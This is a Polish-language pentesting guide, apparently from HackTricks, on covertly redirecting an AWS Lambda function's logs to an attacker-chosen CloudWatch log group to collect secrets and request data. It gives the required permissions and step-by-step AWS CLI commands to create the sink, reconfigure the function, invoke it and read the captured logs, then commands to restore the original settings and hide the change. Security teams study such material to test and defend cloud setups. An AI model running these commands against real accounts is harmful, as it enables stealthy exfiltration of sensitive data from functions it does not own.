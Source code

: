 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Nadużyj `lambda:UpdateFunctionConfiguration` — zaawansowanych ustawień logowania — aby przekierować logi funkcji do wybranej przez atakującego CloudWatch Logs log group. Działa to bez zmiany kodu ani roli wykonawczej (większość ról Lambda już zawiera `logs:CreateLogGroup/CreateLogStream/PutLogEvents` dzięki `AWSLambdaBasicExecutionRole`). Jeśli funkcja wypisuje sekrety/treści żądań lub ulega awarii generując stack trace, możesz je zebrać z nowej log group.

## Wymagane uprawnienia
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (lub polegać na istniejących wyzwalaczach)
- logs:CreateLogGroup (często nie jest wymagane, jeśli rola funkcji już je posiada)
- logs:FilterLogEvents (do odczytu zdarzeń)

## Kroki
1) Utwórz sink log group
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Przekieruj logi docelowej funkcji
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Poczekaj, aż `LastUpdateStatus` stanie się `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Wywołaj i odczytaj z odbiornika
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Wpływ
- Potajemnie przekieruj wszystkie logi aplikacji/systemu do log group, którą kontrolujesz, omijając oczekiwanie, że logi trafiają tylko do `/aws/lambda/<fn>`.
- Exfiltrate wrażliwe dane wypisane przez funkcję lub ujawnione w błędach.

## Czyszczenie
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Notatki
- Kontrole logowania są częścią `LoggingConfig` Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Domyślnie Lambda wysyła logi do `/aws/lambda/<function>`, ale możesz wskazać dowolną nazwę log group; Lambda (lub execution role) utworzy ją, jeśli będzie to dozwolone.

{{#include ../../../../banners/hacktricks-training.md}}
